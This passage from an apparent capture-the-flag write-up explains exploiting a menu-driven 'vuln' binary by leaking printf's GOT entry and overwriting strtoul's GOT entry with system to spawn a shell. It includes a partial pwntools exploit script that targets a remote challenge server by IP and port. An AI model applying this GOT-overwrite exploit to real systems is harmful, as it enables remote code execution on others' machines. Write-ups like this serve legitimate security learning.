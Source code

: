 So we have our nice write-anything-anywhere primitive, an infoleak and
nothing stopping us from popping shells. 

Our plan was to

1. Get to vulnerable program state
2. Leak address of `printf` by writing `printf` got entry to address of first book
3. Compute address of magic shell spawning gadget in libc (from Dragon Sector presentation)
3. Overwrite `printf` GOT entry with this address
4. pop shell and get flag

Unfortunately this didn't work out at all and we spent way too much time trying
to find the reason why. In the end the plan changed to:

3. Compute address of `system`
4. Write address of `strtoul` GOT entry to the address of the first book
5. Overwrite `strtoul` GOT entry with address of `system`
6. Input shell command when asked for score (9 char limit)
7. pop shell and get flag


Our final exploit script:

```python
from pwn import *

velf = ELF("./vuln")
libc = ELF("./libc-2.19.so")  # from debian jesse, according to hint by organizers
# libc = ELF("/usr/lib/libc-2.24.so")

log.info(hex(libc.symbols['printf']))
# printf_to_pwn = libc.symbols['printf'] - 0x0004137b
# printf_to_pwn = libc.symbols['printf'] - 0xd6e77
printf_to_pwn = libc.symbols['printf'] - libc.symbols['system']

log.info("printf_to_pwn is {}".format(hex(printf_to_pwn)))

# vp = process("./vuln") #, env={'LD_PRELOAD': "./libc-2.19.so"})
# gdb.attach(vp, execute="""
# init-peda
# # break * 0x00400b9e
# watch * 0x602048
# """)

vp = remote("130.211.206.204", 1340)


for i in range(10):
    vp.send("a\n\n\n\n")
    vp.clean()

vp.sendline("2")
vp.sendline("f")

for i in range(10):
    vp.send("1\nd\n")

for i in range(8):
    vp.send("a\n\n\n\n")
    vp.clean()

vp.clean()
sleep(1)
vp.clean()

vp.sendline("0")
vp.sendline("e")
```
